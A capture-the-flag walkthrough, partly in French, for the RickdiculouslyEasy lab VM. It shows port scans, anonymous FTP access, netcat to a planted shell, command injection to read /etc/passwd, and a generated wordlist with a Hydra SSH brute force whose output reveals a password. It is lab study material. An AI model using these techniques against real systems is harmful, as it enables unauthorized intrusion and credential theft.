








# VulnLab

## RickdiculouslyEasy

### Grabbing onto net addresses

```sh
┌──(kali㉿kali)-[~]
└─$ netdiscover -r 10.0.0.0/8
Currently scanning: 10.0.0.0/8   |   Screen View: Unique Hosts

 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 184
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------œ
 10.0.2.1        52:55:0a:00:02:01      1      64  Unknown vendor
 10.0.2.2        08:00:27:64:3f:0c      1      60  PCS Systemtechnik GmbH
 10.0.2.15       08:00:27:bf:52:95      1      60  PCS Systemtechnik GmbH
```



### Remote SSH Access

```sh
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.1.4 -oA test
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 09:56 EDT
Nmap scan report for 192.168.1.4
Host is up (0.000070s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
9090/tcp  open  zeus-admin
13337/tcp open  unknown
22222/tcp open  easyengine
60000/tcp open  unknown
MAC Address: 08:00:27:BF:52:95 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 15.21 seconds
```

> [!NOTE] SSH Shell
> The SSH Shell is open on the port 22222

### Flags

- **Flag_Yeah d- just don't do it** :

  Steps:

  - dirb <http://192.168.1.4/>
  - Then curl <http://192.168.1.4/passwords/>
  - To finally know to curl <http://192.168.1.4/passwords/FLAG.txt>

  ```sh
  ┌──(kali㉿kali)-[~]
  └─$ curl 192.168.1.4/passwords/FLAG.txt
  FLAG{Yeah d- just don't do it.} - 10 Points
  ```

  

- **Flag_There is no Zeus, in your face!** :

  Steps:

  - Scan all ports with nmap
  - curl each http open ports, then, if answered, open it in a browser.
  - Open with a web browser: <http://192.168.1.4:9090>

  

- **Flag_TheyFoundMyBackDoorMorty** :

  Steps:

  - Scan all ports with nmap

    ```sh
    nmap -p- 10.0.2.15 -A
    ```

  - The result of the scan/scripts gives out the FLAG

  ```sh
  13337/tcp open  unknown
  | fingerprint-strings:
  |   NULL:
  |_    FLAG:{TheyFoundMyBackDoorMorty}-10Points
  ```

  

- **FLAG_Whoa this is unexpected** :

  Steps:

  - Scan all ports with nmap

    ```sh
    nmap -p- 10.0.2.15 -A
    ```

  - The result of the scan/scripts gives out the following:

    ```sh
    21/tcp    open  ftp     vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
    |_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
    ```

  - We establish an FTP shell as anonymous and get the file

    ```sh
    ftp 10.0.2.15
    ```

  - We can open it and have the flag

  ```sh
  ┌──(kali㉿kali)-[~]
  └─$ cat FLAG.txt
  FLAG{Whoa this is unexpected} - 10 Points
  ```

  

- **FLAG_Flip the pickle Morty!** :

  Steps:

  - Scan all ports with Nmap
  - Find the `60000` ports open with the phrase `Welcome to Ricks half baked reverse shell...`
  - Netcat on it and do a quick ls
  - Find the FLAG and cat it

  ```sh
  ┌──(kali㉿kali)-[~]
  └─$ nc 10.0.2.15 60000
  Welcome to Ricks half baked reverse shell...
  # ls
  FLAG.txt
  # cat FLAG.txt
  FLAG{Flip the pickle Morty!} - 10 Points
  ```

  

- **FLAG_Get off the high road Summer!** :

  Steps:

  - Use a vulenaribilty in the tracertool (<http://192.168.1.4/cgi-bin/tracertool.cgi>) to send commands inside the target
  - Tail/Head the user file (`/etc/passwd`), which gives:

    

  - We now have mutliple users to test on with the password we got during our exploration of the web server.

  ```sh
  ┌──(kali㉿kali)-[~]
  └─$ ssh Summer@10.0.2.15 -p 22222
  Summer@10.0.2.15's password:
  Last login: Wed Aug 23 19:20:29 2017 from 10.0.2.3
  [Summer@localhost ~]$ ls
  FLAG.txt
  [Summer@localhost ~]$ tail FLAG.txt
  FLAG{Get off the high road Summer!} - 10 Points
  ```

  

- **FLAG_131333** :

  Now that we are connected as Summer we try to dig around on what we access to.

  

  On décide de récupérer en SFTP l'image située dans le répertoire de Morty.
  Vu que nous sommes en terminal, on essaie de faire un strings dessus.

  ```sh
  ┌──(kali㉿kali)-[~]
  └─$ strings Safe_Password.jpg
  JFIF
  Exif
  8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
  8BIM
  8BIM
  $3br
  %&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
      #3R
  &'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
  0D000D\DDDD\t\\\\\t
  ```

  

  On récupère par la suite aussi journal.txt.zip

  ```sh
  ┌──(kali㉿kali)-[~]
  └─$ unzip journal.txt.zip
  Archive:  journal.txt.zip
  [journal.txt.zip] journal.txt password:
    inflating: journal.txt
  ┌──(kali㉿kali)-[~]
  └─$ cat journal.txt
  Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

  Anyway. Here it is:

  FLAG: {131333} - 20 Points
  ```

  

- **FLAG_And Awwwaaaaayyyy we Go!** :

  > [!NOTE] Missing dependency
  > The Kali linux was missing the `libmcrypt` dependency first, we need to install it.
  >
  > ```sh
  > sudo apt-get -y install libmcrypt4
  > ```

  ```sh
  ┌──(kali㉿kali)-[~]
  └─$ ./safe
  Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!
  ┌──(kali㉿kali)-[~]
  └─$ ./safe 131333
  decrypt: FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

  Ricks password hints:
   (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
  Follow these clues, in order


  1 uppercase character
  1 digit
  One of the words in my old bands name.
  ```

  

- **Root Access** :

  Une petite recherche sur internet nous permet d'obtenir le *lore* derrière le message trouvé dans le flag précédent.\
  Dans ce cas, c'est le groupe de musique dont Rick faisait partie: ***The Flesh Curtains***.

  > [!TIP]
  > Reférence: [rickandmorty.fandom.com/wiki/The_Flesh_Curtains](https://rickandmorty.fandom.com/wiki/The_Flesh_Curtains)

  Ayant donc toutes les informations qu'il nous faut, supposément, on va créer un dictionnaire de mots de passe possibles que l'on
  utilisera par la suite afin de bruteforce l'accès SSH.

  - Le script Python utilisé pour générer le dictionnaire:

    ```py
    # !/bin/env python3

    from string import ascii_uppercase
    from os import getcwd
    from pathlib import Path

    out_filename = "rick-passwords.log"

    numeros = list(range(0,10))
    uppercase_letters = ascii_uppercase
    band_name = ["The", "Flesh", "Curtains"]
    supposed_passwords = []

    ### -------------- First: Generate the entire list of passwords --------------
    print("Generating passwords...")

    ### We start with an uppercase letter
    for letter in uppercase_letters:
      ### Then a natural int
      for numero in numeros:
        ### To end with one word of Rick's band name
        for band_word in band_name:
          supposed_passwords.append(f"{letter}{numero}{band_word}\n")

    print("Password generated!")

    ### -------------- Second: Write the entire list onto a file to be later used as a dictionary --------------

    with open(f"./{out_filename}", "wt", encoding="utf-8") as fout:
      fout.writelines(supposed_passwords)

    if not fout.closed:
      fout.close()

    print(f"You can find the dictionary at the root of your current working directory: {Path(getcwd())}/{out_filename}")
    ```

  - On bruteforce en utilisant Hydra:

    ```sh
    ┌──(root㉿kali)-[/home/kali]
    └─# hydra -l RickSanchez -P rick-passwords.log 10.0.2.15 ssh -s 22222
    Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-20 05:00:25
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 780 login tries (l:1/p:780), ~49 tries per task
    [DATA] attacking ssh://10.0.2.15:22222/
    [STATUS] 298.00 tries/min, 298 tries in 00:01h, 486 to do in 00:02h, 12 active
    [22222][ssh] host: 10.0.2.15   login: RickSanchez   password: P7Curtains
    1 of 1 target successfully completed, 1 valid password found
    [WARNING] Writing restore file because 2 final worker threads did not complete until end.
    [ERROR] 2 targets did not resolve or could not be connected
    [ERROR] 0 target did not complete
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-20 05:02:09
    ```

    

  Nous pouvons maintenant nous connecter en SSH en tant que RickySanchez:

    

## Vulnerable CMS


